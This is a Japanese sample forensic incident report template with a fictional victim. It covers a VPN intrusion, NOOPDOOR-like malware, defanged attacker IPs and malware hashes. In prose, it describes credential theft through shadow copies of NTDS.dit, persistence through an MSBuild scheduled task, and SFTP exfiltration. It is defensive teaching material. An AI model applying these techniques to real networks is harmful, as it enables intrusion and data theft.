


# インシデント調査報告書サンプル

```{.note-block}
本資料は、架空のインシデント調査報告書サンプルです。
組織名、ホスト名、アカウント名、ファイル名、IPアドレス、ハッシュ値、日時は報告書作成例として設定したもので、実在の組織または実際の被害を示すものではありません。また、本資料に記載されているIPアドレスやドメインには実際の攻撃に悪用されたものが含まれるためアクセスしないようにご注意ください。

本報告書は、調査対象となるネットワークおよびシステムを管理・運用していない第三者（セキュリティベンダー等）がインシデント調査（フォレンジック・ログ分析・マルウェア分析）に参画し、調査報告書を作成した想定で記載しています。調査対象となるネットワークおよびシステムへの関与範囲、調査目的、ヒアリング事項によって、報告書に含めるべき項目は変化します。そのため、実際のインシデント調査報告書に必ずしも本資料と同じ項目が含まれている必要はありません。対策の提言を受けることが目的の場合は、正式な報告書を作成しない場合や、簡素報告書（エグゼクティブサマリー、調査結果概要、対策案のみなど）の作成を依頼する場合も考えられます。また、脅威タイプによっても報告書の内容は変化します。内部不正の場合などは、本報告書とは目的や記載内容が大きく異なります。

報告書の作成を依頼する場合は、事前に報告内容について双方で合意したうえで進めることを推奨します。
```

| 項目         | 内容                                     |
| ------------ | ---------------------------------------- |
| 報告区分     | 最終報告                                 |
| 作成日       | 2025-06-20                               |
| 報告時点     | 2025-06-20 18:00 JST                     |
| 調査対象期間 | 2025-05-01 00:00 ～ 2025-06-05 23:59 JST |
| 版数         | v1.0                                     |
| 作成者       | 株式会社フォレンジックサンプル           |
| 対象組織     | 株式会社ジェーピーサート                     |

```{.note-block}
報告書に記載するタイムゾーンは、日本以外の海外拠点も調査範囲に含まれる場合はUTC+00:00で統一することを推奨します。
```

本報告書で使用されているタイムゾーンは、特段の指定がない限り日本時間（UTC+09:00）で記載します。

<div style="page-break-after: always;"></div>

## 目次 {#toc}

- [本資料の取扱い](#sec-0)
- [1. 調査概要](#sec-1)
  - [1.1 調査にかかる経緯](#sec-1-1)
  - [1.2 ヒアリング内容](#sec-1-2)
  - [1.3 調査目的・調査範囲](#sec-1-3)
  - [1.4 調査方針・対応方針](#sec-1-4)
  - [1.5 調査日程・調査期間](#sec-1-5)
  - [1.6 調査対象・提供データ](#sec-1-6)
  - [1.7 調査方法・調査ツール](#sec-1-7)
- [2. エグゼクティブサマリー・調査結果概要](#sec-2)
  - [2.1 インシデント概要図](#sec-2-1)
  - [2.2 インシデントタイムライン](#sec-2-2)
  - [2.3 主要な推奨対応事項](#sec-2-3)
- [3. 調査結果](#sec-3)
  - [3.1 初期侵入](#sec-3-1)
  - [3.2 認証情報取得・アカウント悪用](#sec-3-2)
  - [3.3 内部探索・横展開](#sec-3-3)
  - [3.4 永続化](#sec-3-4)
  - [3.5 C2通信・プロキシ・外部通信](#sec-3-5)
  - [3.6 情報窃取・情報持ち出し](#sec-3-6)
  - [3.7 防衛回避](#sec-3-7)
  - [3.8 脅威インテリジェンス調査](#sec-3-8)
- [4. 対象別調査結果詳細](#sec-4)
  - [4.1 VPN装置 vpn-tokyo-01](#sec-4-1)
  - [4.2 ADサーバー AD01・AD02](#sec-4-2)
  - [4.3 ファイルサーバー FS01](#sec-4-3)
  - [4.4 管理サーバー AVMGMT01](#sec-4-4)
  - [4.5 公開サーバー WEB01](#sec-4-5)
  - [4.6 CLIENT-001](#sec-4-6)
  - [4.7 詳細インシデント概要図・タイムライン](#sec-4-7)
- [5. 対応状況・推奨対策](#sec-5)
  - [5.1 封じ込め・復旧](#sec-5-1)
  - [5.2 再発防止策](#sec-5-2)
- [付録A. IoC一覧](#appendix-a)
- [付録B. 侵害された・侵害疑いのあるアカウント・端末一覧](#appendix-b)
- [付録C. MITRE ATT&CK対応表](#appendix-c)
- [付録D. 関連ファイル・別紙一覧](#appendix-d)
- [付録E. 証拠保全記録](#appendix-e)

<div style="page-break-after: always;"></div>

## 変更履歴

| 版数 | 日付       | 変更内容         |
| ---- | ---------- | ---------------- |
| v0.1 | 2025-06-10 | 初版作成         |
| v0.9 | 2025-06-18 | レビュー結果反映 |
| v1.0 | 2025-06-20 | 最終版           |

## 本資料の取扱い {#sec-0}

```{.note-block}
報告書の取り扱い範囲を記載します。
また、必要に応じて免責事項などを記載することを検討してください。
```

本報告書に記載した評価、推奨事項等は、調査時点における合理的な技術的見解であり、追加情報、外部機関からの情報提供、環境変更、または新たな知見の判明により変更される可能性があります。

本報告書には、貴社で発生したセキュリティインシデントに関するシステム構成、ログ、認証情報の利用状況、攻撃者の手口、IoCが含まれます。これらの情報が第三者に開示された場合、追加攻撃などのリスクとなるため、本報告書の取り扱いには十分に注意をお願いします。

本報告書に記載した攻撃関連のIPアドレス、ドメイン名、URLに直接アクセスした場合、マルウェア感染、攻撃者への調査活動の露見、または追加被害につながる可能性があります。

### 本報告書に関する留意事項

本報告書が、貴社における事実関係の把握および今後のサイバーセキュリティ対策の一助となれば幸いです。

ただし、本報告書は、現時点において当社が把握している事実および情報に基づき作成したものであり、その内容について正確性、妥当性、完全性その他一切の事項を保証するものではありません。本報告書の内容を利用、参照または信頼したことにより生じたいかなる性質の損害（直接的、間接的損害、特別の事情によって生じた損害等を含みます。）についても、当社は一切の責任を負いかねます。

また、本報告書に関する著作権その他の知的財産権は、当社または正当な権利者に帰属します。

### 本報告書に関する問い合わせ先

本報告書に関するお問い合わせは、以下の問い合わせ先までお願いいたします。

| 項目 | 内容 |
| ---- | ---- |
| 担当部署 | 株式会社フォレンジックサンプル インシデント調査チーム |
| メールアドレス | （問い合わせ先メールアドレスを記載） |
| 電話番号 | （問い合わせ先電話番号を記載） |

## 1. 調査概要 {#sec-1}

```{.note-block}
攻撃関連のIPアドレスやドメイン名は、誤クリックや自動リンク化を避けるため、原則としてdefang形式で記載します。
例: 203[.]0[.]113[.]10、example[.]com、hxxps://example[.]com/path
```

本調査は、貴社において2025年6月1日に確認された不正アクセスについて、侵入原因、侵害範囲、認証情報悪用の有無、マルウェア感染の有無、情報持ち出しの可能性、および再発防止策を明らかにするために実施したものです。

### 1.1 調査にかかる経緯 {#sec-1-1}

2025年6月1日 09:12、貴社のEDRにおいて、ファイルサーバーFS01から外部IPアドレス45[.]77[.]183[.]161に対する通信が検知されました。同日10:05、FS01をウイルス対策ソフトにてファイルスキャンしたところC:\\ProgramData\\Microsoft\\UIAnimation.xmlを検知したため、調査をご依頼いただきました。

### 1.2 ヒアリング内容 {#sec-1-2}

2025年6月1日に実施したヒアリングにおいて、貴社から確認した情報は次のとおりです。

<div class="table-caption">表1-1 ヒアリング内容</div>
| 項目         | 内容                                                           |
| ------------ | -------------------------------------------------------------- |
| 発覚日時     | 2025-06-01 09:12 JST                                           |
| 発覚理由     | EDRがFS01から外部IPアドレス45[.]77[.]183[.]161 への通信を検知 |
| 初動対応     | FS01のネットワーク隔離                                      |
| 調査依頼事項 | 侵入経路、侵害範囲、情報漏えいの有無     |
| VPN装置に関する情報 | 運用担当者から、vpn-tokyo-01のファームウェアバージョン、MFA適用状況（適用なし）、管理画面の公開有無（外部アクセス可能）、およびログ保管状況についてヒアリング |
| 提供可能なVPN関連ログ | VPN認証・接続ログは提供されたが、2025-05-01 00:00以前のログやクラッシュログは保管されていない旨を確認 |

### 1.3 調査目的・調査範囲 {#sec-1-3}

```{.note-block}
実際のインシデント調査においては、侵入時期が不明な場合、インシデント発見時点から少なくとも数か月から1年程度さかのぼってログ調査を実施する必要があります。
本サンプルでは、提供可能であったログの保持期間および攻撃活動が確認された期間に基づき、主調査対象期間を2025-05-01 00:00 ～ 2025-06-05 23:59 JSTとしています。
```

<div class="table-caption">表1-2 調査目的・調査範囲</div>
| 区分 | 内容 |
| ---- | ---- |
| 調査目的 | 侵入経路の特定、マルウェア感染・残存の有無、情報漏えいまたは情報持ち出しの有無、侵害範囲の確認、再発防止策の提示 |
| 優先確認事項 | 侵入経路の特定、マルウェア感染・残存の有無、情報漏えいまたは情報持ち出しの有無 |
| 調査対象機器 | vpn-tokyo-01、AD01、AD02、FS01、AVMGMT01、WEB01、CLIENT-001 |
| 主調査対象期間 | 2025-05-01 00:00～2025-06-05 23:59 JST |
| 調査対象期間の選定 | 2025-04-30以前の詳細ログは、ログローテーションまたは未保管により取得できなかったため、調査対象から除外しています。 |

### 1.4 調査方針・対応方針 {#sec-1-4}

本調査では、ヒアリング内容に基づき、以下の順序で調査しました。

1. vpn-tokyo-01の不審ログイン、脆弱性悪用可能性の確認
2. AD01、AD02における特権アカウント悪用、認証情報取得、内部探索の確認
3. FS01、AVMGMT01、WEB01、CLIENT-001におけるマルウェア感染有無の確認
4. 情報漏えいまたは情報持ち出し可能性の確認
5. 侵害範囲、残存リスク、封じ込め、復旧、再発防止策の整理

なお、調査時間を短縮し、封じ込めを早急に実施するために、ディスクフォレンジックをAD01、FS01、CLIENT-001に限定して調査を開始しました。

### 1.5 調査日程・調査期間 {#sec-1-5}

<div class="table-caption">表1-3 調査日程・調査期間</div>
| 日付       | 実施事項                                                     |
| ---------- | ------------------------------------------------------------ |
| 2025-06-01 | 初動ヒアリング、EDRアラート確認、FS01ネットワーク隔離     |
| 2025-06-02 | vpn-tokyo-01ログ受領、VPN装置の設定状況ヒアリング、AD01・FS01ディスクイメージ取得 |
| 2025-06-03 | AD認証ログ、Windowsイベントログ、EDRログ分析                 |
| 2025-06-10 | 中間報告、侵害アカウントのリセット方針提示                   |
| 2025-06-12 | UIAnimation.xml、NOOPLDR.dll、gostの分析          |
| 2025-06-18 | 情報漏えいの有無、対策案、残存リスク整理                   |
| 2025-06-20 | 最終報告書提出                                               |

### 1.6 調査対象・提供データ {#sec-1-6}

#### 調査対象機器

本調査で優先的に確認した機器を以下に示します。

::: {.target-assets-table}

<div class="table-caption">表1-4 調査対象機器一覧</div>
| 機器名 | 役割 | OS・製品バージョン | IPアドレス | メーカー名・モデル等 | シリアル番号 |
| ------ | ---- | ------------------ | ---------- | -------------------- | ------------ |
| vpn-tokyo-01 | 東京事務所VPN装置 | FortiGate-100F / FortiOS 7.0.12 | 10.10.0.1 | FortiGate-100F | - |
| AD01 | ドメインコントローラー | Windows Server 2019 Datacenter 1809 | 10.10.10.10 | Server Model 1 | DL-AD01-5K8X2P3 |
| AD02 | ドメインコントローラー | Windows Server 2019 Datacenter 1809 | 10.10.10.11 | - | - |
| FS01 | ファイルサーバー | Windows Server 2019 Standard 1809 | 10.10.20.21 | Server Model 2 | DL-FS01-3Z6M8L2 |
| AVMGMT01 | セキュリティ製品管理サーバー | Windows Server 2016 Standard 1607 | 10.10.30.15 | - | - |
| WEB01 | 公開Webサーバー | Ubuntu Server 22.04.4 LTS | 10.10.40.20 | - | - |
| CLIENT-001 | 利用者端末 | Windows 10 Enterprise 22H2 | 10.10.50.101 | Client Model 1 | PF-CLIENT001-9H2K |

:::

#### ディスクイメージ

::: {.disk-image-table}

<div class="table-caption">表1-5 ディスクイメージ</div>
| 証拠ID | ファイル名                | 対象         | SHA-256                                                            |
| ------ | ------------------------- | ------------ | ------------------------------------------------------------------ |
| E-001  | AD01_20250602.E01       | AD01       | 0a5e2b8a3c7f2b7b6fb3f4b72f5f0a6c7d2d1c6a4a2b1c0d9e8f7a6b5c4d3e2f |
| E-002  | FS01_20250602.E01       | FS01       | 1b6f3c9d4e8a2b0c5f7e9d1a3c4b6e8f0a2d4c6b8e0f1a3c5d7e9f1a2b3c4d5e |
| E-003  | CLIENT-001_20250603.E01 | CLIENT-001 | 2c7a4d0e5f9b3c1d6e8f0a2b4c6d8e0f1a3b5c7d9e1f3a5b7c9d1e3f5a7b9c1d |

:::

::: {.wide-page}

#### ログ・ファイル

<div class="table-caption">表1-6 ログ・ファイル</div>
| 証拠ID   | ファイル名                                                 | 内容                                                                                                          | 記録・対象期間（JST）                        | 取得日時（JST）  | SHA-256                                                            |
| -------- | ---------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------- | -------------------------------------------- | ---------------- | ------------------------------------------------------------------ |
| E-101    | vpn-tokyo-01_ssl-vpn_20250501-20250602.log               | VPN認証・接続ログ                                                                                             | 2025-05-01 00:00 ～ 2025-06-02 10:15         | 2025-06-02 10:15 | b8c3f7e2a9d1c4b6e0f5a7c9d3e1b4f6a8c0d2e4f6a8b0c2d4e6f8a0b2c4d6e8 |
| E-102    | AD01_Security_20250501-20250602.evtx                     | AD01のWindowsセキュリティログ                                                                                 | 2025-05-01 00:00 ～ 2025-06-02 11:20         | 2025-06-02 11:20 | c9d4e8f3a0b2c5d7e9f1a4b6c8d0e2f4a6b8c0d2e4f6a8b0c2d4e6f8a0b2c4   |
| E-103    | FS01_Security_20250501-20250602.evtx                     | FS01のファイル共有・ログオンイベント                                                                          | 2025-05-01 00:00 ～ 2025-06-02 11:35         | 2025-06-02 11:35 | d0e5f9a4b1c3d6e8f0a2b5c7d9e1f4a6b8c0d2e4f6a8b0c2d4e6f8a0b2c4d6   |
| E-104    | edr_process_network_20250501-20250603.csv                | EDRログ                                                                                                       | 2025-05-01 00:00 ～ 2025-06-03 09:00         | 2025-06-03 09:00 | e1f6a0b5c2d4e7f9a1b3c6d8e0f2a4b6c8d0e2f4a6b8c0d2e4f6a8b0c2d4e6   |
| E-105    | UIAnimation.xml                                         | マルウェア（NOOPDOOR類似）                                                                                    | 2025-05-11 01:40頃にFS01へ配置された疑い     | 2025-06-01 10:05 | 93af6afb47f4c42bc0da3eedc6ecb9054134f4a47ef0add0d285404984011072 |
| E-106    | NOOPLDR.dll                                             | マルウェア（NOOPDOOR類似）                                                                                    | 2025-05-12 23:10頃にAVMGMT01へ配置された疑い | 2025-06-10 09:30 | 7a7e7e0d817042e54129697947dfb423b607692f4457163b5c62ffea69a8108d |
| E-107    | gost                                                     | HTTP/SOCKS5プロキシツール                                                                                     | 2025-05-14 22:31頃にWEB01上で実行された疑い  | 2025-06-10 11:00 | 3f2e1d0c9b8a7f6e5d4c3b2a1908172635445362718090a1b2c3d4e5f6071829 |
| E-110    | fw_session_20250501-20250602.log                         | Firewallセッションログ、通信量、遮断・許可ログ                                                                | 2025-05-01 00:00 ～ 2025-06-02 16:00         | 2025-06-02 16:00 | 6c5d4e3f2a1b0c9d8e7f604132435465768798aabbccddeeff00112233445566 |
| E-111-01 | proxy_20250501-20250602.log                              | proxy_dns_20250501-20250602.zip の展開後ファイル（Proxyログ）                                               | 2025-05-01 00:00 ～ 2025-06-02 16:30         | 2025-06-02 16:30 | 9c6d4e3f50718293a4b5c6d7e8f90123456789abcdef00112233445566778899 |
| E-111-02 | dns_20250501-20250602.log                                | proxy_dns_20250501-20250602.zip の展開後ファイル（DNSログ）                                                 | 2025-05-01 00:00 ～ 2025-06-02 16:30         | 2025-06-02 16:30 | ad7e5f40618293a4b5c6d7e8f90123456789abcdef00112233445566778899aa |
| E-112    | AD02_Security_20250501-20250603.evtx                     | AD02のWindowsセキュリティログ                                                                                 | 2025-05-01 00:00 ～ 2025-06-03 11:00         | 2025-06-03 11:00 | 8e7f604132435465768798aabbccddeeff00112233445566778899aabbccdd   |
| E-113    | AVMGMT01_Security_System_Defender_20250501-20250603.evtx | AVMGMT01のログオン、サービス、Defender関連イベント                                                            | 2025-05-01 00:00 ～ 2025-06-03 11:30         | 2025-06-03 11:30 | 9f80715263748596a7b8c9d0e1f2031425364758697a8b9cadbecfd0e1f20314 |
| E-114-01 | WEB01_auth.log                                           | WEB01_linux_logs_20250501-20250603.tar.gz の展開後ファイル（認証ログ）                                      | 2025-05-01 00:00 ～ 2025-06-03 12:00         | 2025-06-03 12:00 | a09182736455463728190a1b2c3d4e5f60718293a4b5c6d7e8f90123456789ab |
| E-114-02 | WEB01_syslog                                             | WEB01_linux_logs_20250501-20250603.tar.gz の展開後ファイル（syslog）                                        | 2025-05-01 00:00 ～ 2025-06-03 12:00         | 2025-06-03 12:00 | b0929384756657483920a1b2c3d4e5f60718293a4b5c6d7e8f90123456789ac  |
| E-114-03 | WEB01_bash_history.recovered                             | WEB01_linux_logs_20250501-20250603.tar.gz の展開後ファイル（復元bash履歴）                                  | 2025-05-01 00:00 ～ 2025-06-03 12:00         | 2025-06-03 12:00 | c0a39485766758493021b2c3d4e5f60718293a4b5c6d7e8f90123456789ad    |
| E-115-01 | FS01_MFT.csv                                             | FS01_MFT_USN_Prefetch_Amcache_20250602.zip の展開後ファイル（MFT分析結果）                                  | 2025-06-02時点のアーティファクト             | 2025-06-02 15:00 | b1a2938475667483920a1b2c3d4e5f60718293a4b5c6d7e8f90123456789abcd |
| E-115-02 | FS01_USNJournal.csv                                      | FS01_MFT_USN_Prefetch_Amcache_20250602.zip の展開後ファイル（USN Journal分析結果）                          | 2025-06-02時点のアーティファクト             | 2025-06-02 15:00 | b2a39485766758493021b2c3d4e5f60718293a4b5c6d7e8f90123456789abce  |
| E-115-03 | FS01_Prefetch.csv                                        | FS01_MFT_USN_Prefetch_Amcache_20250602.zip の展開後ファイル（Prefetch分析結果）                             | 2025-06-02時点のアーティファクト             | 2025-06-02 15:00 | b3a495867778493021b2c3d4e5f60718293a4b5c6d7e8f90123456789abcf    |
| E-115-04 | FS01_Amcache.csv                                         | FS01_MFT_USN_Prefetch_Amcache_20250602.zip の展開後ファイル（Amcache分析結果）                              | 2025-06-02時点のアーティファクト             | 2025-06-02 15:00 | b4a5968778493021c3d4e5f60718293a4b5c6d7e8f90123456789abcd0       |
| E-116-01 | AVMGMT01_registry_export.reg                             | AVMGMT01_registry_services_tasks_20250610.zip の展開後ファイル（レジストリエクスポート）                    | 2025-06-10時点のアーティファクト             | 2025-06-10 12:00 | c2b3a495867778493021b2c3d4e5f60718293a4b5c6d7e8f90123456789abcde |
| E-116-02 | AVMGMT01_services.csv                                    | AVMGMT01_registry_services_tasks_20250610.zip の展開後ファイル（サービス一覧）                              | 2025-06-10時点のアーティファクト             | 2025-06-10 12:00 | c3b4a5968778493021c3d4e5f60718293a4b5c6d7e8f90123456789abcdf     |
| E-116-03 | AVMGMT01_tasks.csv                                       | AVMGMT01_registry_services_tasks_20250610.zip の展開後ファイル（タスク一覧）                                | 2025-06-10時点のアーティファクト             | 2025-06-10 12:00 | c4b5a69788794a3021c3d4e5f60718293a4b5c6d7e8f90123456789abce0     |
| E-117-01 | FS01_netstat_20250601.txt                                | FS01_live_response_netstat_tasks_fw_20250601.zip の展開後ファイル（netstat結果）                            | 2025-06-01 10:18取得時点のライブレスポンス   | 2025-06-01 10:18 | d3c4b5a69788794a3021c3d4e5f60718293a4b5c6d7e8f90123456789abcdef  |
| E-117-02 | FS01_tasks_20250601.csv                                  | FS01_live_response_netstat_tasks_fw_20250601.zip の展開後ファイル（タスク一覧）                             | 2025-06-01 10:18取得時点のライブレスポンス   | 2025-06-01 10:18 | d4c5b6a798897a4b3120d4e5f60718293a4b5c6d7e8f90123456789abcdf0    |
| E-117-03 | FS01_firewall_rules_20250601.txt                         | FS01_live_response_netstat_tasks_fw_20250601.zip の展開後ファイル（Windows Firewall設定）                   | 2025-06-01 10:18取得時点のライブレスポンス   | 2025-06-01 10:18 | d5c6b7a8998a4b3210d4e5f60718293a4b5c6d7e8f90123456789abcdf1      |
| E-118-01 | AD01_MFT.csv                                             | AD01_MFT_USN_FileAccess_20250602.zip の展開後ファイル（MFT分析結果）                                        | 2025-06-02時点のアーティファクト             | 2025-06-02 15:30 | e4d5c6b7a8998a4b3210d4e5f60718293a4b5c6d7e8f90123456789abcdef0   |
| E-118-02 | AD01_USNJournal.csv                                      | AD01_MFT_USN_FileAccess_20250602.zip の展開後ファイル（USN Journal分析結果）                                | 2025-06-02時点のアーティファクト             | 2025-06-02 15:30 | e5d6c7b8a99a4b3210d4e5f60718293a4b5c6d7e8f90123456789abcdef1     |
| E-118-03 | AD01_file_access_summary.csv                             | AD01_MFT_USN_FileAccess_20250602.zip の展開後ファイル（NTDS.ditおよびレジストリハイブへのアクセス痕跡要約） | 2025-06-02時点のアーティファクト             | 2025-06-02 15:30 | e6d7c8b9aa9b4c3210d4e5f60718293a4b5c6d7e8f90123456789abcdef2     |

:::

#### 調査上の制約

```{.note-block}
ログに関しては、取得されている内容によっては調査に不十分な場合があります。
保存期間だけでなく追跡に必要な監査項目やログ種別が取得されていたかどうかも記載します。
```

本調査では、提供されたログ・ファイルおよび保全データをもとに調査を実施しました。
一方で、以下の点については、ログの取得範囲または記録内容の制約により、確認できる範囲に制約があります。

- VPN経由の侵入原因の特定  
  vpn-tokyo-01のVPN認証・接続ログは2025-05-01 00:00から2025-06-02 10:15まで取得できており、2025-05-10 02:14の不審なSSL-VPN接続は確認できました。一方で、ログローテーションにより2025-05-01 00:00以前のものが欠損し、当該時刻前後のクラッシュログも確認できなかったため、VPN装置の脆弱性悪用と認証情報の悪用のいずれであったかは断定できません。
- AD01監査ポリシー設定による追跡範囲の制約  
  AD01では監査ポリシーが十分に有効化されていなかったため、プロセス実行、コマンドライン、ログオン失敗、特権利用など、攻撃活動の追跡に有用な一部のイベントはWindowsセキュリティログには記録されていませんでした。
- AD02、AVMGMT01およびWEB01の調査アーティファクトの制限  
  AD02、AVMGMT01およびWEB01に関しては、セキュリティログの調査など一部ファストフォレンジックのみの実施であるため、不審なファイルなどの見落としがある可能性があります。封じ込め終了後などに（再構築前に）ディスクフォレンジックを実施することを推奨します。

### 1.7 調査方法・調査ツール {#sec-1-7}

```{.note-block}
調査手法に関しては、ファストフォレンジック・フルフォレンジック分析、メモリイメージ分析、ログ分析、脅威インテリジェンス分析など分析手法によって判明すると期待できる事柄や解明できないと予想される事象を明示して、説明をすることでアウトプットの齟齬がでないようにします。
```

<div class="table-caption">表1-7 調査手法</div>
| 調査手法 | 使用データ | 確認できること |
| -------- | ---------- | -------------- |
| ディスクフォレンジック（タイムライン分析） | ディスクイメージ、MFT、USN Journal、Prefetch、Amcache、レジストリ | 不審なファイル作成・削除・変更、プログラム実行、ログオン、タスク登録、外部通信等を時系列で整理し、攻撃活動の流れを確認します。ファイルが削除されている場合は、事象を特定できない場合があります。 |
| ログ分析 | Firewall、Proxy、DNS、VPNログ、EDRログ | マルウェア外部通信先、通信量・時間、VPN接続元やプロセス実行履歴を確認します。 |
| ライブレスポンス分析 | netstat、タスク一覧、Windows Firewall設定等の取得結果 | 調査時点での待受ポート、実行中プロセス、スケジュールタスク、Firewallルールを確認します。ファイルの情報は取得しないため、マルウェアなどが設置されている場合は、特定できない場合があります。 |
| マルウェア分析 | 検体ファイル | マルウェアの機能、通信先、永続化方法を確認します。 |

<div class="table-caption">表1-8 調査方法・調査ツール</div>
| 調査方法                     | 使用ツール・バージョン                                          | 目的                                                                                        |
| ---------------------------- | --------------------------------------------------------------- | ------------------------------------------------------------------------------------------- |
| VPNログ分析                  | Splunk Enterprise 9.2.1                                         | 不審ログイン、接続元IPアドレス、セッション時間の確認 |
| Windowsイベントログ分析      | Hayabusa 2.16.0、EvtxECmd 1.5.0                                 | ログオン、タスク登録、SMBアクセス、Defender停止の確認                                      |
| ディスクフォレンジック       | X-Ways Forensics 21.0、MFTECmd 1.4.0、RECmd 1.5.0               | ファイル作成・削除、Prefetch、レジストリ、Shimcache、Amcacheの確認                          |
| EDRログ分析                  | Splunk Enterprise 9.2.1                                         | プロセス実行、外部通信、マルウェア検知、親子プロセスの確認                                  |
| Firewall・Proxy・DNSログ分析 | Splunk Enterprise 9.2.1                                         | 外部通信先、通信量、SFTP/HTTPS通信、名前解決履歴の確認                                      |
| Linuxログ分析                | journalctl、GNU grep                                    | WEB01のログオン、コマンド実行、マルウェア実行痕跡の確認                                  |
| ライブレスポンス分析         | netstat、tasklist、schtasks、netsh           | 待受ポート、タスク、プロセス、Windows Firewallルールの確認                                  |
| マルウェア分析               | IDA Pro 8.4、x64dbg snapshot_2024-06-01、CAPA 9.0.0、YARA 4.5.1 | マルウェアの機能推定                                                                        |

## 2. エグゼクティブサマリー・調査結果概要 {#sec-2}

貴社において、2025年6月1日に発覚したセキュリティインシデントについて、調査を実施しました。

調査の結果、攻撃者は東京事務所に設置されたVPN装置vpn-tokyo-01を経由して社内ネットワークへ侵入した可能性が高いと考えられます。侵入方法は、VPN装置の脆弱性悪用または認証情報の悪用が考えられますが、VPN装置側のログローテーションにより2025-05-01 00:00以前のものが欠損しているため、いずれか一方に断定することはできません。
攻撃者は、2025年5月10日に外部IPアドレス89[.]233[.]109[.]69からVPN装置vpn-tokyo-01へ接続した後、アカウントSAMPLE\\AdministratorおよびSAMPLE\\svc-backupを悪用し、ADサーバー、ファイルサーバー、管理サーバーにアクセスしていました。

ネットワーク内への侵入後、攻撃者はAD01においてvssadminコマンドを実行してシャドウコピーを作成し、Active DirectoryデータベースファイルNTDS.ditおよびレジストリハイブファイルSYSTEM、SAM、SECURITYの取得を試みました。さらに、SMB経由でマルウェアを複数端末に配置した痕跡を確認しました。FS01では、2025年5月11日 01:44にスケジュールタスク「UpdateCheck」が登録され、MSBuild.exeにより C:\\ProgramData\\Microsoft\\UIAnimation.xmlを実行する設定であることを確認しました。このタスクはシステム起動時に同ファイルを再実行する設定であり、マルウェアの永続化に該当します。

2025年5月17日から5月18日にかけて、FS01においてファイル列挙、MFT上に残されたC:\\ProgramData\\Microsoft\\collect_20250517.rarというファイル名の痕跡、およびsftp.exeによる外部通信が確認されました。当該RARファイルについて確認できたのはファイル名の痕跡のみであり、ファイル本体は確認できません。通信ログ上、同期間にFS01から外部送信先への送信量184,734,221bytes（約176.2MB）の通信が確認されており、内部情報が持ち出された可能性があります。また、AVMGMT01からC2疑い通信先へのHTTPS通信も確認されています。ただし、通信内容は暗号化されており、送信されたファイルの内容は確認できません。

現時点で、持ち出された可能性のある情報がダークウェブ、または既知のリークサイトに掲載された事実は確認していませんが、継続監視が必要です。

本調査で確認したマルウェアC:\\ProgramData\\Microsoft\\UIAnimation.xmlは、分析の結果、NOOPDOORと類似する機能および挙動を有することを確認しました。NOOPDOORは、攻撃グループMirrorFaceが使用するマルウェアであると[JPCERT/CCが報告](https://blogs.jpcert.or.jp/ja/2024/07/mirrorface.html)しています。
